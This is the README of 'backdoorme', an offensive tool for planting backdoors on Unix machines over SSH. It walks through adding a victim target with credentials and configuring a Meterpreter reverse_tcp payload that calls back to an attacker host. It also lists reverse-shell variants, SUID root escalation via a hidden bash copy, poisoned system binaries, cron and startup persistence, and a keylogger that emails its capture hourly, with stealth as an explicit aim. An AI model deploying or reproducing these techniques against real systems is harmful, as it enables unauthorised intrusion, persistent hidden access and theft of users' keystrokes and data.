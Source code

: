 # backdoorme [![Build Status](https://travis-ci.org/Kkevsterrr/backdoorme.png)](https://travis-ci.org/Kkevsterrr/backdoorme)

 Backdoorme is a powerful utility capable of backdooring Unix machines with a slew of backdoors.  Backdoorme uses a familiar metasploit interface with tremendous extensibility. 
 
 Backdoorme relies on having an existing SSH connection or credentials to the victim, through which it will transfer and deploy any backdoors.  In the future, this reliance will be removed as the tool is expanded. 
 To set up SSH, please see here: https://help.ubuntu.com/community/SSH/OpenSSH/Configuring
 
 Please only use Backdoorme with explicit permission - please don't hack without asking.  
## Usage
Backdoorme comes with a number of built-in backdoors, modules, and auxiliary modules.  Backdoors are specific components to create and deploy a specific backdoor, such as a netcat backdoor or msfvenom backdoor.  Modules can be applied to any backdoor, and are used to make backdoors more potent, stealthy, or more readily tripped. Auxiliaries are useful operations that could be performed to help persistence.

To start backdoorme, first ensure that you have the required dependencies. 
```
$ python dependencies.py
```
Launching backdoorme:
```
$ python master.py
   ___           __      __              __  ___
  / _ )___ _____/ /_____/ /__  ___  ____/  |/  /__
 / _  / _ `/ __/  '_/ _  / _ \/ _ \/ __/ /|_/ / -_)
/____/\_,_/\__/_/\_\\_,_/\___/\___/_/ /_/  /_/\__/
Welcome to BackdoorMe, a powerful backdooring utility. Type "help" to see the list of available commands.
Type "addtarget" to set a target, and "open" to open an SSH connection to that target.
Using local IP of 10.1.0.1.
>>
```
To add a target:
``` 
>> addtarget
Target Hostname: 10.1.0.2
Username: victim
Password: password123
 + Target 1 Set!
>>
```
### Backdoors

To use a backdoor, simply run the "use" keyword. 
``` 
>> use shell/metasploit
 + Using current target 1.
 + Using Metasploit backdoor...
(msf) >>
```
From there, you can set options pertinent to the backdoor.  Run either "show options" or "help" to see a list of parameters that can be configured.  To set an option, simply use the "set" keyword. 
```
(msf) >> show options
Backdoor options:

Option		Value		Description		Required
------		-----		-----------		--------
name		initd		name of the backdoor		False
format		elf		format to write the backdoor to		True
lhost		10.1.0.1		local IP to connect back to		True
encoder		none		encoder to use for the backdoor		False
lport		4444		local port to connect back on		True
payload		linux/x86/meterpreter/reverse_tcp		payload to deploy in backdoor		True
(msf) >> set name apache
 + name => apache
(msf) >> show options
Backdoor options:

Option		Value		Description		Required
------		-----		-----------		--------
name		apache		name of the backdoor		False
...
```
As in metasploit, backdoors are organized by category. 
- Auxiliary
  - **user** - adds a new user to the target.
  - **web** - installs an Apache Server on the client.
  - **simplehttp** - installs python's SimpleHTTP server on the client.
- Escalation
  - **setuid** - the SetUID backdoor works by setting the setuid bit on a binary while the user has root acccess, so that when that binary is later run by a user without root access, the binary is executed with root access. By default, this backdoor flips the setuid bit on nano, so that if root access is ever lost, the attacker can SSH back in as an unpriviledged user and still be able to run nano (or any chosen binary) as root. ('nano /etc/shadow'). Note that root access is initially required to deploy this escalation backdoor. 
   - **shell** - the shell backdoor is a priviledge escalation backdoor, similar to (but more specific than) it's SetUID escalation brother. It duplicates the bash shell to a hidden binary, and sets the SUID bit.  Note that root access is initially required to deploy this escalation backdoor. To use, while SSHed in as an unpriviledged user, simply run ".bash -p", and you will have root access.
- Shell
  - **bash** - uses a simple bash script to connect to a specific ip and port combination and pipe the output into bash.
  - **bash2** - a slightly different (and more reliable) version of the above bash backdoor which does not prompt for the password on the client-side.
  - **metasploit** - employs msfvenom to create a reverse_tcp binary on the target, then runs the binary to connect to a meterpreter shell.
  - **netcat** - uses netcat to pipe standard input and output to /bin/sh, giving the user an interactive shell.
  - **netcat_traditional** - utilizes netcat-traditional's -e option to create a reverse shell.
  - **perl** - a script written in perl which redirects output to bash, and renames the process to look less conspicuous.
  - **php** - runs a php backdoor which sends output to bash. It does not automatically install a web server, but instead uses the web module
  - **pupy** - uses n1nj4sec's Pupy backdoor, found at https://github.com/n1nj4sec/pupy.
  - **python** - uses a short python script to perform commands and send output back to the user.
  - **web** - ships a web server to the target, then uploads msfvenom's php reverse_tcp backdoor and connects to the host. Although this is also a php backdoor, it is not the same backdoor as the above php backdoor.
- Access
  - **ssh_key** - creates RSA key and copies to target for a passwordless ssh connection
- Windows
  - **windows**
  
### Modules
Every backdoor has the ability to have additional modules applied to it to make the backdoor more potent. To add a module, simply use the "add" keyword. 
```
(msf) >> add poison
 + Poison module added
```
Each module has additional parameters that can be customized, and if "help" is rerun, you can see or set any additional options. 
```
(msf) >> help
...
Poison module options:

Option		Value		Description		Required
------		-----		-----------		--------
name	    ls		  name of command to poison		False
location /bin		where to put poisoned files into		False
```
Currently enabled modules include:
 - Poison
  - Performs bin poisoning on the target computer - it compiles an executable to call a system utility and an existing backdoor.
  - For example, if the bin poisoning module is triggered with "ls", it would would compile and move a binary called "ls" that would run both an existing backdoor and the original "ls", thereby tripping a user to run an existing backdoor more frequently. 
 - Cron
  * Adds an existing backdoor to the root user's crontab to run with a given frequency.  
 - Web
  - Sets up a web server and places a web page which triggers the backdoor.
  - Simply visit the site with your listener open and the backdoor will begin.
 - Keylogger
  - Ships a keylogger to the target and starts it.
  - Given the option to email the results to you every hour.
 - User
  - Adds a new user to the target.
 - Startup
  - Allows for backdoors to be spawned with the bashrc and init files.

### Targets
Backdoorme supports multiple different targets concurrently, organized by number when entered. The core maintains one "current" target, to which any new backdoors will default. To switch targets manually, simply add the target number after the command: "use metasploit 2" will prepare the metasploit backdoor against the second target. Run "list" to see the list of current targets, whether a connection is open or closed, and what backdoors & modules are available. 

## Contributing
Backdoorme is still very much in its infancy! Feel free to contribute to the project - simply fork it, make your changes, and issue a pull request. Have an idea for a killer backdoor, or something we could improve? Make an issue and we'll add it ASAP!

If you wish to add your own backdoor, follow the directions given in the backdoorme/backdoors/template.py file. 
